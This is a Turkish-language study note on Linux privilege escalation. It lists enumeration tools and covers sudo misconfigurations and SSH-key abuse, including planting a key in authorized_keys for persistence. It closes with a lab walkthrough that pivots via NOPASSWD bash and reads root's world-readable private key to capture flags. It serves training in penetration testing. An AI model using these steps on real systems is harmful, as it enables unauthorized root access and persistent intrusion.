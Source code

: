```yaml
---
icon: material/help
---
```


# Privilege Escalation

Uzak bir sunucuya ilk erişim genellikle düşük ayrıcalıklı bir kullanıcı bağlamında olur. Tam erişim elde etmek için, ayrıcalıklar, kök kullanıcısına yükseltilmelidir. Bunun için dahili/yerel bir güvenlik açığı bulmak gerekir.

## PrivEsc Checklist

* [HackTricks](https://book.hacktricks.xyz/welcome/readme)
* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Enumeration Scripts

* [LinEnum](https://github.com/rebootuser/LinEnum)
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [JAWS](https://github.com/411Hall/JAWS)
* [PEASS](https://github.com/carlospolop/PEASS-ng)

## Kernel Exploits

Eski bir işletim sistemi çalıştıran bir sunucuyla karşılaştığımızda potansiyel kernel açıklarını aramalıyız. Sunucunun en son güncellemeler ve yamalarla bakımının yapılmadığını varsayalım. Bu durumda, sunucunun, kernel açıklarına karşı savunmasız olması muhtemeldir. Kernel istismarları sistem kararsızlığına neden olabilir. Bu istismarları laboratuvar ortamında denemek ve yalnızca müşterinin açık onayı ve koordinasyonu ile çalıştırmak gerekir.

## Vulnerable Software

Sistemde yüklü yazılımlar için istismarlar aranmalıdır.

## User Privileges

Linux `sudo` komutu, kullanıcının, farklı bir kullanıcı olarak komut yürütmesine olanak tanır. Aşağıdaki komut ile `sudo` ayrıcalıkları kontrol edilebilir:

```bash
sudo -l
```

Herhangi bir komut başka bir kullanıcı olarak çalıştırılabilir:

```bash
sudo -u john /bin/echo Hello World!
```

Aşağıda verilen sayfalar ayrıcalık yükseltmek amacıyla kullanılan bazı faydalı komutları/uygulamaları içerir:

* [GTFOBins](https://gtfobins.github.io/)
* [LOLBAS](https://lolbas-project.github.io)

## Exposed Credentials

Kimlik bilgilerini açığa çıkarmak için, yapılandırma dosyalarına, log dosyalarına ve komut geçmişi dosyalarına bakılabilir.

## SSH Keys

Belirli bir kullanıcı için `.ssh` dizinini okuma yetkimiz olsun. Bu durumda dizinde bulunan özel SSH anahtarı oturum açmak için kullanılabilir.

Gizli anahtarın izin bilgisini değiştir:

```bash
chmod 600 ~/.ssh/id_rsa
```

Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

```bash
ssh user@10.10.10.10 -i ~/.ssh/id_rsa
```

Belirli bir kullanıcı için `.ssh` dizinine yazma yetkimiz olsun. Bu durumda kendi üreteceğimiz bir açık anahtarı dizinde bulunan `authorized_keys` dosyasına yerleştirebiliriz. Bu teknik, shell erişimi kazandıktan sonra SSH erişimi elde etmek için kullanılır. Mevcut SSH yapılandırması diğer kullanıcılar tarafından yazılan anahtarları kabul etmeyecektir.

Öncelikle yeni bir anahtar çifti oluşturmalıyız:

```bash
ssh-keygen -f Key
```

Bu komut iki adet dosya üretecektir:

1. Key
2. Key.pub

Key.pub anahtarı uzak makinedeki `authorized_keys` dosyasına kopyalanmalıdır:

```bash
cat Key.pub >> ~/.ssh/authorized_keys
```

Bu sayede uzak sunucu özel anahtarımızı kullanarak oturum açmamıza izin verecektir.

Gizli anahtarın izin bilgisini değiştir:

```bash
chmod 600 Key
```

Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

```bash
ssh user@10.10.10.10 -i Key
```

## Questions

```text
SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
```

??? tip "Steps"

    User1 kullanıcısı ile SSH bağlantısı gerçekleştir (parola olarak `password1` kullan):

    ```bash
    ssh user1@94.237.53.58 -p 30018
    ```

    Ardından aşağıdaki komutu çalıştır:

    ```bash
    sudo -l
    ```

    ```text title="Output"
    Matching Defaults entries for user1 on ng-954801-gettingstartedprivesc-kwfvw-5d9799dc6d-dwnb4:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User user1 may run the following commands on ng-954801-gettingstartedprivesc-kwfvw-5d9799dc6d-dwnb4:
        (user2 : user2) NOPASSWD: /bin/bash
    ```

    Çıktıda görüldüğü üzere user2 kullanıcısı parola kullanmadan Bash shell çalıştırabiliyor. Bu bilgiden hareketle user2 kullanıcısına geçiş yap:

    ```bash
    sudo -u user2 /bin/bash
    ```

    Flag dosyasının içeriğini görüntüle:

    ```bash
    cat /home/user2/flag.txt
    ```

```text
Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
```

??? tip "Steps"

    User2 kullanıcısı ile aşağıdaki komutu çalıştır:

    ```bash
    ls -al /root/.ssh
    ```

    ```text title="Output"
    total 20
    drwxr-x--- 1 root user2 4096 Feb 12  2021 .
    drwxr-x--- 1 root user2 4096 Feb 12  2021 ..
    -rw------- 1 root root   571 Feb 12  2021 authorized_keys
    -rw-r--r-- 1 root root  2602 Feb 12  2021 id_rsa
    -rw-r--r-- 1 root root   571 Feb 12  2021 id_rsa.pub
    ```

    Çıktıda görüldüğü üzere `root` kullanıcısına ait özel anahtar herkes tarafından okunabilir durumdadır. Bu dosyanın içeriğini kopyala ve ardından mevcut SSH bağlantısını sonlandır.

    Kopyaladığın özel anahtar bilgisini yerel makinede yeni bir dosyaya kaydet. Bunu yaparken dosya satır sınırlayıcısının LF formatında olduğundan ve dosya sonunda boş bir satır olduğundan emin ol!

    Gizli anahtarın izin bilgisini değiştir:

    ```bash
    chmod 600 private_key_file
    ```

    Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

    ```bash
    ssh root@94.237.53.58 -p 30018 -i private_key_file
    ```

    Cevabı elde etmek için soruda belirtilen dosyanın içeriğini görüntüle:

    ```bash
    cat /root/flag.txt
    ```
